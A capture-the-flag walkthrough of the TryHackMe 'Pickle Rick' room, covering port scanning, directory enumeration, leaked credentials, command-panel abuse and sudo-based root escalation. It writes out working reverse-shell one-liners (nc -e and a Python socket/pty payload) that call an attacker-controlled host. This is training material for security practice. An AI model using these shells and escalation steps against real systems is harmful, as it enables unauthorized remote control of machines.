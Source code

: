 # Pickle Rick
#### Author : [ar33zy](https://tryhackme.com/p/ar33zy)
#### Date : 09/03/2024
#### Link : https://tryhackme.com/room/picklerick
Note : the IP of the machine could be different for you !

## Challenge
### Enumeration 
First, let's perform a scan of the machine with `nmap -vv -T 5 -sV -sC -oN nmap.txt 10.10.124.198` to see if any port is open.

- `-vv` : Having minimum verbose mode
- `-T 5` : Scan with full speed
- `-sV`: Attempts to determine the version of the service running on port
- `-sC` : Scan with default NSE scripts. Considered useful for discovery and safe
- `-oN` : Normal output to the file nmap.txt
- `-Pn` : Treat all hosts as online

We have in particular this result :
``` bash
PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 89:e4:90:3e:b6:0d:c9:fd:29:24:97:46:2b:d6:e6:21 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC+XDw5CP11Y39wljhiuevTwERd1/cdjAnxT8W37tl8vXUUFXiyot534/LCS9fNhnkobbOnJXunLMsBHj2smsyJ/YKcCoeMr4AhxHQlCSKG9dHBNuFUl7ycx6bF9MTJtuW/2fZJrXNZu7eQjDI20AtzKB2VhTKq1AaZPN5QM2WCu/8hWQrBU9LFZtT+ttXarKHSKLRfGBf8j/KpXGiT7l4rWaJ+bPcxQsLMdgtAhUthXIFt2h7nLlD5iAhyusjnMNCoz2+oiWmzWhQZtFWV3XGKq14BLxLQT3Dgb4vea3ULLgOeofcN3ayiYGIzOQTwMe2LurfJzSRWamkMFBTdfNYJ
|   256 5d:8a:88:d1:80:3d:59:f6:30:a5:92:3e:bf:a5:f6:be (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBE4sTiXZtlabMSYNh64mm25Z3DttXe/hUnW0fbwumnfmpdMFDhsw27FQK+X/zD5GoIXU2lxQq3pTwBvRLzGnWho=
|   256 fb:bb:64:3f:4e:ef:4a:d6:e1:e5:43:99:f5:94:90:11 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIMmhfyGqQfA/pOL+9IJRBqqHBZcN0ggLt0IuL09eUqUq
80/tcp open  http    syn-ack Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Rick is sup4r cool
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We can conclude from this that 2 ports are open : 22 and 80.

Port 22 is SSH. Since we don't have any information about users, we will skip it for now.

Port 80 is HTTP, which means a website is up at this port. Let's check if we can have some information here.

### Website (Port 80)
#### Discovery
When we go at URL **10.10.124.198:80**, we arrive at this page :

![Website](images/Pickle_rick.png)

We seem to have nothing... A first thing to do in every website is then to check the source code.

There seem to be a comment here that tell us an interesting information.

<details>
    <summary>Clue</summary>
  
```html
  <!--

    Note to self, remember username!

    Username: R1ckRul3s

  -->
```

</details>

We keep it for later.

Now, a good thing to do is enumerating the website to search for **hidden subdomains**. I will use Gobuster for that : `gobuster dir -u http://10.10.124.198/ -w SecLists/Discovery/Web-Content/common.txt -x.php,.txt`.

I recommand that you use [Seclists](https://github.com/danielmiessler/SecLists) to brute-force with Gobuster. 

The result is the following :
```bash
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.124.198/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                SecLists/Discovery/Web-Content/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php,txt
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 292]
/.htaccess            (Status: 403) [Size: 297]
/.htaccess.php        (Status: 403) [Size: 301]
/.hta.php             (Status: 403) [Size: 296]
/.hta.txt             (Status: 403) [Size: 296]
/.htaccess.txt        (Status: 403) [Size: 301]
/.htpasswd            (Status: 403) [Size: 297]
/.htpasswd.php        (Status: 403) [Size: 301]
/.htpasswd.txt        (Status: 403) [Size: 301]
/assets               (Status: 301) [Size: 315] [--> http://10.10.124.198/assets/]
/denied.php           (Status: 302) [Size: 0] [--> /login.php]
/index.html           (Status: 200) [Size: 1062]
/login.php            (Status: 200) [Size: 882]
/portal.php           (Status: 302) [Size: 0] [--> /login.php]
/robots.txt           (Status: 200) [Size: 17]
/robots.txt           (Status: 200) [Size: 17]
/server-status        (Status: 403) [Size: 301]
Progress: 14169 / 14172 (99.98%)
===============================================================
Finished
===============================================================
```
There are some interesting subdomains : **/robots.txt**, **/login.php** and **portal.php**.

When we go on **/robots.txt**, we find another nice clue.

<details>
    <summary>Clue 2</summary>
  
```
Wubbalubbadubdub
```

</details>

**/login.php** and **/portal.php** send us both to **/login.php**.

![](images/login.png)



Let's try to login with the credentials we had earlier.<br>
**User** : R1ckRul3s <br>
**Password** : Wubbalubbadubdub <br>

Bingo !


#### Login.php
![](images/command_panel.png)

If we try to navigate between the different sections, we see that only command is accessible for us. Let's try some commands then !

What if we try to list all files with `ls` ?
```bash
Sup3rS3cretPickl3Ingred.txt
assets
clue.txt
denied.php
index.html
login.php
portal.php
robots.txt
```
There seem to be some interesting files here. We can also note that it seems to replicate bash commands, which means we could try to connect with a reverse shell.

Let's try `cat Sup3rS3cretPickl3Ingred.txt` !

```bash
Command disabled to make it hard for future PICKLEEEE RICCCKKKK.
```

Hmm, it seems that we can't do cat. Maybe something similar like `less Sup3rS3cretPickl3Ingred.txt` ?

And here we go ! We now have the **third ingredient** !

We have another clue through clue.txt :
<details>
    <summary>Clue</summary>
Look around the file system for the other ingredient.
    
</details>

Let's mess around with the files then.

I want to know where we are : `pwd`
```bash
/var/www/html
```

Now, let's see if there is anything in the home directory : `ls /home`.
```bash
rick
ubuntu
```

Let's see what files there are in rick : `ls /home/rick`.
```bash
second ingredients
```

Let's try to enter second : `cd /home/rick/second`.
```bash
No response
```

Maybe it's a full file ? Let's verify : `file /home/rick/'second ingredients` (` allow us to take the space into account).
```bash
/home/rick/second ingredients: ASCII text
```

Ok, it seems to be a simple texte file. We can then open it with `less /home/rick/'second ingredients`.<br>
This way, we have the **second ingredient**.

But what about now ?

Maybe we can try to make a reverse shell like we said earlier. Let's try our best commands from https://www.revshells.com/.

On our machine, let's start to listen for a connection : `nc -lvnp 1234`.

Then, let's try a simple `nc IP_LOCAL_MACHINE 1234 -e sh`.

No response.

After trying different commands, we find that python3 works : `export RHOST="IP_LOCAL_MACHINE";export RPORT=1234;python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("sh")'` 

And boom ! Reverse shell activated !

### Privilege escalation

Let's do some privilege escalation. What does `sudo -l` tells us ?
```bash
Matching Defaults entries for www-data on
    ip-10-10-0-186.eu-west-1.compute.internal:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on
        ip-10-10-0-186.eu-west-1.compute.internal:
    (ALL) NOPASSWD: ALL
```

We learn a very interesting fact here. We can run every command as anyone. Let's create a shell as root then : `sudo /bin/bash`.

...And here we go ! We now have root access over the machine. Let's see what we have in the root folder : `ls /root`.
```bash
3rd.txt  snap
```

And there, we have the **last ingredient**.







